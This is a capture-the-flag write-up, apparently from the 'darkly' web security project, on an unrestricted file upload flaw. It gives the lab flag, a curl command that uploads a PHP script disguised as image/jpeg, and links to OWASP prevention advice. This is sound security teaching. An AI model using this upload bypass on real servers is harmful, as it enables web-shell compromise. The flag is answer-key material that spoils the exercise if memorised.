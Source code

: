 # UNRESTRICTED FILE UPLOAD

## Flag
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=upload

Force to upload a script by doing a curl with a script and an image type
```
curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://{IP_ADDRESS}/index.php\?page=upload
```
**This works because the file type checked in back is the one provided in request, not over the file itself**

## Use
> Supposed code can be executed in the server context or on the client side \
> Server-side attacks: The web server can be compromised by uploading and executing a web-shell which can run commands, 
> browse system files, browse local resources, attack other servers, or exploit the local vulnerabilities, and so forth.
> Client-side attacks: Uploading malicious files can make the website vulnerable 
> to client-side attacks such as XSS or Cross-site Content Hijacking.

## Prevention
There are many ways to prevent this. Check [this page](https://www.owasp.org/index.php/Unrestricted_File_Upload#Prevention_Methods_.28Solutions_to_be_more_secure.29) for a methods list 

## Documentation
- [owasp - unrestricted file upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)


---

[RETURN](https://github.com/tillderoquefeuil/darkly#readme)